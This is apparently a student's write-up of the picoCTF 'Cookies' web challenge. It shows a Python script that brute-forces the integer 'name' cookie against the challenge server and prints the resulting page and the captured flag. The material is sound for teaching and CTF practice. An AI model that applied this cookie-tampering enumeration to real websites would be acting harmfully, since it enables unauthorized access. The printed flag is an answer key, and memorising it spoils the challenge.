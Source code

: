 **Cookies**

1. The challenge leads us to the following link:
```
http://mercury.picoctf.net:17781/
```

2. This is the prompt with a dialog box and ```Search``` button.
```
Welcome to my cookie search page. See how much I like different kinds of cookies!
```

3. To check, I first type in ```how much``` and get:
```
That doesn't appear to be a valid cookie.
```

4. The URL changes remains:
```
http://mercury.picoctf.net:17781/
```

5. On inspecting the page and checking the cookies, the current cookie has Name ```name``` and value ```-1```.

6. The initial prompt in the dialog box is ```snickerdoodle``` and on typing that:
```
That is a cookie! Not very special though...
I love snickerdoodle cookies!

```

7. On inspecting, the cookie has Name ```name``` and valuue ```0```. The URL changes to:
```
http://mercury.picoctf.net:17781/check
```

8. I tried one more cookie name in the dialog box: ```butter```:
```
That is a cookie! Not very special though...
I love butter cookies!

```

9. On inspecting, the cookie Name is ```name``` and value is ```11```. The URL is:
```
http://mercury.picoctf.net:17781/check
```

10. Thus intuitively, if a correct cookie is entered it has value >= 0. 

11. In terminal, I create file ```vim cookies.py```.

12. ```pip3 install requests```

13. Script:
```
#!/bin/python3
import requests

url = 'http://mercury.picoctf.net:17781/check'  

for i in range(25):  
    cookie = {'name': str(i)}
    response = requests.get(url, cookies=cookie)
    
    if 'picoCTF' in response.text:
        print("Flag found:", response.text)
        break  
```

14. Then it is run: ```python3 cookies.py```

15. Output:
```
Flag found: <!DOCTYPE html>
<html lang="en">

<head>
    <title>Cookies</title>


    <link href="https://maxcdn.bootstrapcdn.com/bootstrap/3.2.0/css/bootstrap.min.css" rel="stylesheet">

    <link href="https://getbootstrap.com/docs/3.3/examples/jumbotron-narrow/jumbotron-narrow.css" rel="stylesheet">

    <script src="https://ajax.googleapis.com/ajax/libs/jquery/3.3.1/jquery.min.js"></script>

    <script src="https://maxcdn.bootstrapcdn.com/bootstrap/3.3.7/js/bootstrap.min.js"></script>

</head>

<body>

    <div class="container">
        <div class="header">
            <nav>
                <ul class="nav nav-pills pull-right">
                    <li role="presentation"><a href="/reset" class="btn btn-link pull-right">Home</a>
                    </li>
                </ul>
            </nav>
            <h3 class="text-muted">Cookies</h3>
        </div>

        <div class="jumbotron">
            <p class="lead"></p>
            <p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{3v3ry1_l0v3s_c00k135_bb3b3535}</code></p>
        </div>


        <footer class="footer">
            <p>&copy; PicoCTF</p>
        </footer>

    </div>
</body>

</html>
```

16. On inspecting output, flag is found:
```
picoCTF{3v3ry1_l0v3s_c00k135_bb3b3535}
```

